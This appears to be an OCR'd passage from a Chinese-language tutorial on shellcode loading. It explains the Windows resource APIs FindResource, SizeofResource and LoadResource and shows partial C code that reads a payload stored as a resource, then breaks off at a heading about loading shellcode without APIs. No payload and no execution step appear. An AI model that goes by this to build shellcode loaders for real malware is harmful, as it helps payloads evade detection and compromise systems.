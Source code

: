-   hModule：处理包含资源的可执行文件的模块。NULL值则指定模块句柄指向操作系统通常情况下创建最近过程的相关位图文件。
-   lpName：指定资源名称。若想了解更多的信息，请参见注意部分。
-   lpType：指定资源类

```php
HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_CALC_BIN1), L"calc_bin");
```

-   MAKEINTRESOURCE将一个整数值转换为一种资源类型

**2、SizeofResource：表示该函数返回指定资源的字节数大小。**

```php
DWORD SizeofResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);
```

-   hModule：包合资源的可执行文件模块的句柄。
-   hReslnfo：资源句柄。此句柄必须由函数FindResource或[FindResourceEx](https://baike.baidu.com/item/FindResourceEx)来创建。

```php
DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
```

**3、LoadResource：装载指定资源到全局存储器**

```php
HGLOBAL LoadResource(
  [in, optional] HMODULE hModule,
  [in]           HRSRC   hResInfo
);
```

-   hModule：处理包合资源的可执行文件的模块句柄。若hModule为NULL，系统从当前过程中的模块中装载资源。
-   hReslnfo：将被装载资源的句柄。它必须由函数[FindResource](https://baike.baidu.com/item/FindResource/6375062) \[1\] 或[FindResourceEx](https://baike.baidu.com/item/FindResourceEx)创建。

```php
HGLOBAL shellcodeResouceData = LoadResource(NULL, shellcodeResource);
```

下面是完整的源码

```php
DWORD oldProtect;
BOOL pt;
HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), L"PAYLOAD_BIN");
//找到shellcode资源，获取它的资源句柄
//它的名称为IDR_PAYLOAD_BIN1，类型为PAYLOAD_BIN
HGLOBAL shellcodeResourceData = LoadResource(NULL, shellcodeResource);
//读取其中的数据
DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
//读取数据⻓度，开辟内存空间读⼊，获得该空间指针
```

#### 4.无API加载shellcode
